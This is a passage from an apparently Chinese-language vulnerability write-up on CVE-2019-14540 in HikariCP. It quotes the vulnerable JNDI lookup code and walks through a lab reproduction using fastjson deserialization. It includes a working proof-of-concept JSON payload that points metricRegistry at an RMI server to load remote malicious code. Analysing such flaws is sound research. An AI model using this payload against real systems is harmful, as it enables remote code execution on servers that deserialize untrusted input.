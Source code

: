 ```JAVA
         }
      }

      this.metricRegistry = metricRegistry;
   }
```

传入的参数metricRegistry不等于null，调用getObjectOrPerformJndiLookup，方法详情如下：  

**getObjectOrPerformJndiLookup方法**  

```JAVA
   private Object getObjectOrPerformJndiLookup(Object object)
   {
      if (object instanceof String) {
         try {
            InitialContext initCtx = new InitialContext();
            return initCtx.lookup((String) object);
         }
         catch (NamingException e) {
            throw new IllegalArgumentException(e);
         }
      }
      return object;
   }
```

熟悉JNDI Reference注入漏洞的同学一看代码就明白怎么回事了，getObjectOrPerformJndiLookup方法中直接初始化了上下文并调用lookup方法，传入lookup方法的参数就是setMetricRegistry方法的参数，因为使用fastjson/jackson反序列化对象时可以控制传入setXXX方法的参数，且setXXX方法会被自动调用，所以可以结合JNDI Reference注入漏洞构造poc如下：  

```JAVA
String poc = "{\"@type\":\"com.zaxxer.hikari.HikariConfig\",\"metricRegistry\":\"rmi://127.0.0.1:1099/Exploit-SERVER\"}";
```

在HikariConfig.java中搜索getObjectOrPerformJndiLookup方法的引用，发现除了setMetricRegistry方法以外，还可以利用setHealthCheckRegistry方法触发漏洞。  

### 2. 漏洞复现  

笔者电脑环境比较古老，还是用的Eclipse手动导入jar包的方式，下载最新版本[HikariCP](https://search.maven.org/remotecontent?filepath=com/zaxxer/HikariCP/3.4.1/HikariCP-3.4.1.jar)组件的jar包和依赖项目[slf4j](http://central.maven.org/maven2/org/slf4j/slf4j-api/1.7.28/slf4j-api-1.7.28.jar)，然后Add to Build Path，如下所示：  

![](/assets/images/2019-09-20-cve-2019-14540/3.png)  

先启动RMI服务端，服务端实现需要动态加载外部class，具体实现见[RMI动态加载类](#jump)部分的知识点，然后使用fastjson反序列化，成功执行到攻击者指定RMI服务器提供的远程对象里面的恶意代码。  
